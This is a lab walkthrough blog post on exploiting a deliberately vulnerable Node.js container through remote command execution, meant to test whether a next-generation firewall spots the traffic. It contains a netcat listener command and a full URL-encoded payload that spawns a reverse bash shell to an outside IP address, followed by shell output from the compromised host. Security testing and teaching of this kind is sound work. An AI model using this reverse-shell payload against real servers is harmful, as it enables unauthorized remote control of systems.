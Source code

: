 ```yaml
---
layout: post
date:   2020-08-09 17:54:35 -0400
title:  "Web Server Compromise - Node.js Remote Command Execution"
categories: initialaccess
tags: vulnerabilityprotection
---
```

<p>
Remotely exploiting servers in DMZ's seems so unecessary today with all of the credential theft and client side exploitation, but it is still a critical link in the attack chain. Cloud initiatives are allowing administrators to start up servers all over the place, and most of the time they do not have the same protections in the cloud they typically would in the DMZ. This attack could also be applied for lateral movement if the vulnerable web application is only accessible internally.
</p>

<p>
As a user you can be on either side of the DUT (Device Under Testing) for this. We will be exploiting the web server by requesting a URL with the command execution in it. For this user case that command will ask the web server to connect to our control infrastructure.
</p>

<p>
This particular use case can be used to demonstrate lateral movement too. This host could be the initial system compromised from the Internet and then pivot to another host, or it could be leveraged to pivot on an internal network.
</p>

<h3>Step 1 - Deploy the Node.js Container</h3>

<p>
The intrstructions to build your own vulnerable container can be found here, <a href="https://github.com/freshdemo/node-simple-rce">https://github.com/freshdemo/node-simple-rce</a>.
</p>


<h3>Step 2 - Setup Control</h3>

<p>
From a terminal behind your device under testing run netcat as a listener. Make sure the port you specify will be accessible from the webserver.
</p>

<code>
  nc -l 80
</code>
<br>


<h3>Step 3 - Exploit the Server</h3>

<p>
The following demonstrates how to connect to the vulnerable server (localhost:8080), and run the remote command execution that communicates with the control server in the previous step (13.88.250.188:80).
</p>

<code>
  http://localhost:8080/?q=var+net+=+require(%22net%22),+sh+=+require(%22child_process%22).exec(%22/bin/bash%22);var+client+=+new+net.Socket();client.connect(80,+%2213.88.250.188%22,+function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});
</code>
<br>
<br>

<p>
Now back at your control server you should be able to execute commands on the host.
</p>

<pre>
root@DockerHost:~# nc -l 80
pwd
/usr/src/app
ls
app.js
node_modules
package-lock.json
package.json
</pre>


<h3>Step 4 - View the Results</h3>


<p>
Looking at the following NGFW log we can see that the NGFW did permit this traffic, however the application was identified as unknown-tcp. Unknown-tcp should be managed out of your network so this application should not be permitted long after the initial deployment.
</p>
<br>
<br>
<img src="/images/exploit-nodejs-rce-results.png" alt="ngfw">



